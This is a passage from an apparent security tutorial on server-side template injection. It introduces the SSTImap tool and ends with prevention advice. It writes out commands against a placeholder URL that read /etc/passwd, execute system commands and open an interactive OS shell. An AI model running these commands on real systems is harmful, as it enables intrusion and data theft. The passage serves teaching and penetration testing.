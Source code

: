 # SSTI Tools of the Trade & Preventing SSTI

**Tools of the Trade**

One of the most effective tools for SSTI exploitation is **SSTImap**, a modern alternative to the now-deprecated tplmap. To get started with SSTImap, you can clone its repository and install the necessary dependencies. Once set up, you can use it to identify SSTI vulnerabilities and the template engine in use by providing a target URL. For example, running SSTImap can reveal injection points, the template engine (like Twig), and various capabilities for exploitation, such as executing system commands or downloading files.

**Example Commands:**

*   To identify vulnerabilities:

    ```bash
    python3 sstimap.py -u http://example.com/index.php?name=test
    ```
*   To download a file:

    {% code overflow="wrap" %}
    ```bash
    python3 sstimap.py -u http://example.com/index.php?name=test -D '/etc/passwd' './passwd'
    ```
    {% endcode %}
*   To execute a command:

    ```bash
    python3 sstimap.py -u http://example.com/index.php?name=test -S id
    ```
*   To obtain an interactive shell:

    ```bash
    python3 sstimap.py -u http://example.com/index.php?name=test --os-shell
    ```

**Prevention Strategies**

Preventing SSTI vulnerabilities is crucial. The primary defense is to ensure that user input is never directly passed to the template engine's rendering function. This can be achieved by thoroughly reviewing code paths to eliminate any potential for user input to reach the rendering stage.

For applications that allow users to modify or upload templates, implementing hardening measures is essential. This includes removing dangerous functions from the template engine's execution environment to mitigate the risk of remote code execution. However, this approach can be bypassed, so a more robust solution is to isolate the template engine in a separate execution environment, such as a Docker container, to enhance security.

By equipping ourselves with the right tools and knowledge, we can effectively identify, exploit, and prevent SSTI vulnerabilities, fostering a safer web environment for all.
